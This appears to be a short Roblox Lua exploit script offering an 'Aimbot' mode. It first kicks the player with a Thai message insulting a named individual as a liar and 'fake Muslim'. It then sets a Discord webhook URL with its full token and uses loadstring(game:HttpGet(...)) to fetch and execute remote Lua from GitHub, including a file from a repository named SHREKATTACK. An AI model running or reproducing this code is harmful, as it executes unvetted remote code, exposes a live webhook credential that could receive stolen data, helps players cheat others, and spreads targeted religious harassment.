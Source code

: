 game.Players.LocalPlayer:Kick("ซีดีป่าเป็นโรคเอ๋อตอเเหลเก่ง\nชื่ออาซัน\nเป็นอิสลามปลอม")



wait(555)



_G.webhooksdiscord = "https://discord.com/api/webhooks/1054735612122501140/OFrfrbVnvi4Xi6NhUKtH5Ok1PFBXfle553VzBvUjROj196cb_2Sh9PCgrL4LKoxKjB74"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
_G.Mode = "Aimbot" -- Aimbot / Normal
loadstring(game:HttpGet("https://raw.githubusercontent.com/xlostpexz/tyuiop/Fps/Loading.lua"))()
